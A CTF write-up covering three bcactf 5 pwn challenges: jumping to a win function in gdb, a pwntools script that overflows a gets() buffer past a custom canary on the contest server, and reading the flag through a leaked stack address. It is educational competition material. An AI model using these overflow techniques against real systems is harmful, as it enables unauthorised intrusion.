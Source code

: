 ```yaml
---
title: 'bcactf 5 2024'
description: 'Here is the solutions to some of the challenges in bcactf 5'
pubDatetime: 2024-06-23T15:22:00Z
modDatetime: 2023-12-21T09:12:47.400Z
tags: 
- "writeup"
---
```


# Background Information
I went to this competition as BT Lazy Bums, we did a lot worse than we expected but what could we do? I got lazy so I'm just gonna post the pwn challenges I did.

## Binary Exploitation

### Inaccessable
> I wrote a function to generate the flag, but don't worry, I bet you can't access it!
This felt more like a reverse engineering challenge, but the solve is simple.

Load up gdb and do `info functions`

```bash
0x0000000000400536  c
0x0000000000400599  f
0x00000000004005ea  win
0x00000000004006b8  main
```

So we have a win function. And the hint said to just jump to it. Ok.

```bash
gef➤  jump win
Continuing at 0x4005ee.
bcactf{W0w_Y0u_m4d3_iT_b810c453a9ac9}
[Inferior 1 (process 39665) exited with code 046]
```


### canary keeper
> My friend gave me this executable, but it keeps giving me errors. Can you get the flag?

Based on the title, the solution for this problem is to bypass the "canary", which is basically an alarm that will close a program once it detects a buffer overflow.

Let's look at the code:

(binary ninja)
```c

int32_t main(int32_t argc, char** argv, char** envp)
{
    int64_t var_48;
    __builtin_strncpy(&var_48, "FLAG", 0x40);
    int32_t var_4f;
    __builtin_strncpy(&var_4f, "canary", 7);
    printf("Enter a string: ");
    void buf;
    gets(&buf);
    int32_t rax_3;
    if (check_canary(&var_4f) == 0)
    {
        puts("Buffer overflow detected!");
        rax_3 = 1;
    }
    else if (check_flag(&var_48) == 0)
    {
        printf("Flag: %s\n", "FLAG");
        rax_3 = 0;
    }
    else
    {
        puts("No changes in flag detected!");
        rax_3 = 1;
    }
    return rax_3;
}

```

So as we can see that the input size is 73, and that there is a custom canary coded. What we can do with this is to overflow the binary, but append the canary so that it passes the check.

Here's our tactic: 

1. Input 73 A's and append the binary string "canary" 
2. Add a four character anything. I'll just use flag
3. Get the flag.

Unfortunately I didn't realize that you had to use null bytes in order to allow the canary to bypas the check with data after it. Two days to realize that.

So here's the solve script:

```python
from pwn import *
from pwn import p64
elf = ELF('./provided')


#its 73 space in the input(?)

if args.REMOTE:
    r = remote('challs.bcactf.com', 32101)
else:
    r = process(elf.path)


payload = b'A' * (73)
#does the canary check(?)
payload += b'canary'
payload += b'\x00'
payload += b'flag'

#payload += p64(0x63616e617279)

print(payload)
r.sendline(payload)
print(r.recvall())

```

And we get the flag.

```bash
[*] '/home/jake/bcactf/canary/provided'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.bcactf.com on port 32101: Done
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcanary\x00flag'
[+] Receiving all data: Done (58B)
[*] Closed connection to challs.bcactf.com port 32101
b'Enter a string: Flag: bcactf{s1mple_CANaRY_9b36bd9f3fd2f}\n'
jake@edgygamer:~/bcactf/canary$ 
```

### pwnage
> It's either a bug, a hack, an exploit, or it's pwnage. Let this challenge stand as one of the first of many stairs to mastery over that which can only be described as pwn.

Let's look at the source code provided. 

```c

int main() {
    // Hint: how do these values get stored?
    void* first_var;
    char* guess;
    char flag[100];
    load_flag(flag, 100);

    puts("Welcome to the most tasmastic game of all time!");
    wait_for(3);
    puts("Basically it's just too simple, I've put the");
    puts("flag into the memory and your job is ... to");
    puts("guess where it is!!");
    wait_for(2);
    puts("Have fun!");
    wait_for(1);
    puts("Oh and before you start, I'll give you a little");
    puts("hint, the address of the current stackframe I'm");
    printf("in is %p\n", (&first_var)[-2]);
    wait_for(3);
    puts("Okay anyway, back to the game. Make your guess!");
    puts("(hexadecimals only, so something like 0xA would work)");
    printf("guess> ");

    guess = read_pointer();

    wait_for(3);

    puts("Okay, prepare yourself. If you're right this");
    puts("will print out the flag");
    
    wait_for(1);
    puts("Oh, and if your wrong, this might crash and");
    puts("disconnect you\nGood luck!");

    printf("%s\n", guess);

    return 1;
}
```

Ok, so it prints out the current stack frame of first_var. It then asks for a guess in hexadecimal format, which is a guess for the stack frame of the flag.

We can look at this part specifically:

```c
void* first_var;
char* guess;
char flag[100];
load_flag(flag, 100);
```

So all we need to do is "shift" upwards by adding bytes to the stackframe. Simple. I kind of guessed the offset, but it seems to be 0x20 from the provided stackframe.

```bash
Welcome to the most tasmastic game of all time!
 . . .
Basically it's just too simple, I've put the
flag into the memory and your job is ... to
guess where it is!!
 . .
How fun is that!
 .
Oh and before you start, I'll give you a little
hint, the address of the current stackframe I'm
in is 0x7ffeb79507b0
 . . .
Okay anyway, back to the game. Make your guess!
(hexadecimals only, so something like 0xA would work)
guess> 0x7ffeb79507d0
 . . .
Okay, prepare yourself. If you're right this
will print out the flag
 .
Oh, and if your wrong, this might crash and
disconnect you
Good luck!
bcactf{0nE_two_thR3E_f0ur_567___sT3ps_t0_PwN4G3_70cc0e5edd6ea}
```

